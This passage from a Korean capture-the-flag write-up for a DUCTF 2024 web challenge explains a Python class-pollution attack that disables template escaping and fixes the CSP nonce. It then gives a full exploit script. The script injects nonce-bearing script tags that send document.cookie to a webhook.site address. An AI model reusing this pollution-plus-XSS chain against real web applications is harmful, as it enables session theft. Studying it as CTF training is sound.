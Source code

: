 따라서 페이로드의 순서는 다음과 같게 된다.

  * `TEMPLATES_ESCAPE_ALL` 값 **False**로 수정

  * `SECRET_NONCE` 값 `A`와 같은 고정 값으로 수정

  * `RANDOM_COUNT` 값 `0`으로 고정

  * 페이지 내에서 전송해주는 `nonce` 값을 통해 `XSS`

```python
from requests import Session
from bs4 import BeautifulSoup

PAYLOAD = {"__class__":{"__init__":{"__globals__":{"SECRET_NONCE":"peoplstar", "RANDOM_COUNT": 0, "TEMPLATES_ESCAPE_ALL": False}}}}
USERNAME = "guest"
PASSWORD = "guest"
EXFIL = "https://webhook.site/5cbbd078-e5fd-4ca9-9fdc-a48030d6ec5f"

def parse_nonce(html):
    soup = BeautifulSoup(html, 'html.parser')
    nonce = soup.find('script')['nonce']
    print(f'[+] nonce : {nonce}')
    return nonce

def exploit(host):
    s = Session()
    s.post(host + '/register', data={'username': USERNAME, 'password': PASSWORD})
    s.post(host + '/login', data={'username': USERNAME, 'password': PASSWORD})
    s.post(host + '/save_feedback', json=PAYLOAD)
    s.post(host + '/admin/update-accepted-templates', json={"policy":"strict"})

    get_nonce = s.get(host)
    nonce = parse_nonce(get_nonce.text)
    # GitPage Liquid Exception: Liquid syntax error {% raw %} {% endraw %}
    s.post(host + '/create_post', data=f"{% raw %}{{'title':'<script nonce={nonce}>fetch(\"{EXFIL}?c=\"+document.cookie)</script>', 'content': '<script nonce={nonce}>fetch(\"{EXFIL}?c=\"+document.cookie)</script>', 'public': 1}}{% endraw %}")
    s.get(host + '/api/v1/report')

if __name__ == '__main__':
    URL = 'https://web-co2v2-69f4cd699e8ccaba.2024.ductf.dev/'
    exploit(URL)
```

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/ae6ef9a0-b765-44d5-b2fe-f485dbd557c9" width = 550>
</p>

* **참고** : [https://velog.io/@jiyaho/%EB%B3%B4%EC%95%88-%EC%9B%B9-%EA%B0%9C%EB%B0%9C-%EB%B3%B4%EC%95%88-%EC%83%81%EC%8B%9D-CSRF%EC%99%80-XSS%EC%97%90-%EB%8C%80%ED%95%B4](https://velog.io/@jiyaho/%EB%B3%B4%EC%95%88-%EC%9B%B9-%EA%B0%9C%EB%B0%9C-%EB%B3%B4%EC%95%88-%EC%83%81%EC%8B%9D-CSRF%EC%99%80-XSS%EC%97%90-%EB%8C%80%ED%95%B4)

* **참고** : [abdulrah33m](https://blog.abdulrah33m.com/prototype-pollution-in-python/)